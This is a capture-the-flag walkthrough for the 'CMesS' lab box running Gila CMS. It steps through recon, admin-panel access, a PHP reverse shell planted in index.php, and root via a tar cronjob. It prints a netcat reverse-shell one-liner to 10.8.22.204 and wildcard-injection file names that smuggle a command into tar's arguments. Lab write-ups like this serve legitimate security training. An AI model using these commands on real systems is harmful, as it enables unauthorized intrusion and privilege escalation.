



# [cd ../](../index.md)
# CMesS
> Can you root this Gila CMS box?  
> Please add `10.10.28.87 cmess.thm` to **/etc/hosts**

# Start

## Recon

### Nmap
```
nmap -A -T4 -p- cmess.thm
```
Open ports are: 
- 22 - OpenSSH 7.2p2 
- 80 - Apache httpd 2.4.18 

### Website
  
There is nothing interesting here. ):

### Dirsearch
  
We have a login on `/admin` but we dont have creds!

### Subdomain bruteforcing
```
ffuf -c -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fl 108
```
We need the `-fl 108` to avoid junk.  
  
We got only one subdomain `<subdomain>.cmess.thm`  
  
- Add `<subdomain>.cmess.thm` to **/etc/hosts**  
  

## Admin panel
If we go there we can see a user and a password!  
  
Use these creds in `cmess.thm/admin`  
  
And now we have an admin panel!

## Getting a lowpriv shell
Go to ***Content***->***File Manager***  
Open the index.php and replace the content with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
  
Now just go to `http://cmess.thm` while our nc is listening and BOOM we got a revshell as **www-data** !!

## Privesc
### Linenum
An interesting cronjob is running
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
We got `/opt/.password.bak` at the end of the linenum

```
cat /opt/.password.bak
```
And we got *andre's backup password*  
Now just ssh in as andre with the new creds  
And we got the ***SHELL*** as ***andre***  
Btw we got the user flag too from `/home/andre/user.txt`

## Getting ROOT
### Linenum again :D
We see the cronjob again and nothing more  
We have to do stg with it  
We need the [Wildcard exploit](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)  

### Creating the exploit
Lets make a reverse nc with msfvenom!
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.22.204 lport=31337 R
```
And we got the payload:
```
mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj
```

### Exploiting
```
echo "mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Now we just have to wait a lilbit  


# Got root and got the flag from `/root/root.txt`
